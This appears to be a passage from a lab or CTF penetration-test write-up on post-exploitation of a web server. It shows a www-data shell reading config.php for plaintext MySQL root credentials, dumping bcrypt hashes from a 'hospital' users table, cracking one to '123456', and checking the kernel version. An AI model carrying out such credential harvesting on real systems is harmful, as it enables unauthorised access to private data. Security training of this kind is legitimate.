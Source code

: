 
## pre exploitation

![[Pasted image 20250204161854.png]]
 -looking for databases
```bash
www-data@webserver:/var/www/html$ cat config.php
-------------------------------------------------------------
cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
-------------------------------------------------------------
www-data@webserver:/var/www/html$ 
```

```bash
mysql -u root -p

```
-mysql commands to see users table
```
admin
$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 
patient  $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO
ahmad    $2y$10$zV8Pt73748Ts0k3G2dUnL.IAvXL4slW5C5BfWLzQJ.6Ljfoh8YlwW 

```

```
$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2:123456
```

```
uname u
www-data@webserver:/tmp$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

```
